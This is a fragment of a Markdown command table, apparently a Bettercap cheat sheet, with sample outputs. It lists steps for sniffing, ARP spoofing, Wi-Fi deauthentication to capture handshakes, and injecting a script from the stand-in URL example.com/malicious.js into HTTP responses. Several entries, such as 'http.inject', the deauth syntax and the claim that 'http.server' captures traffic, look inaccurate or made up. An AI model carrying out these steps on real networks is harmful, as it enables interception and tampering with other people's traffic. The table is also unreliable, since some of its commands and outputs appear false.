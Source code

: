 |Show Detected Devices|`net.show`|Lists detected devices and networks.|`Found 5 devices:`  <br>`192.168.1.2`  <br>`192.168.1.3`|
|Start Sniffer|`sniffer.start`|Initiates packet sniffing on the selected interface.|`Sniffer started on wlan0`|
|Start ARP Spoofing|`arp.spoof on`|Activates ARP spoofing against the specified target.|`ARP spoofing started`|
|Deauthenticate Wi-Fi Clients|`wifi.deauth 10 -a <BSSID>`|Deauthenticates clients from the Wi-Fi network to capture handshakes.|`Sending 10 deauth packets to <BSSID>`|
|Capture HTTP Traffic|`http.server`|Captures HTTP traffic to analyze unencrypted requests.|`HTTP server running on 0.0.0.0:8080`|
|Inject JavaScript|`http.inject js http://example.com/malicious.js`|Injects JavaScript into HTTP responses for testing vulnerabilities.|`JavaScript injection successful`|
|Set Verbose Mode|`set net.sniff.verbose true`|Enables verbose mode for packet sniffing.|`Verbose mode enabled for packet sniffing`|
|Update Caplets|`caplets.update`|Updates Bettercap caplets (script files).|`Caplets updated successfully`|
|List Loaded Caplets|`caplets.show`|Lists loaded caplets.|`Loaded caplets:`  <br>`hstshijack`  <br>`wifihoney`|
|Stop Bettercap|`exit`|Exits the Bettercap console and stops all operations.|`Stopping Bettercap...`  <br>`Goodbye!`|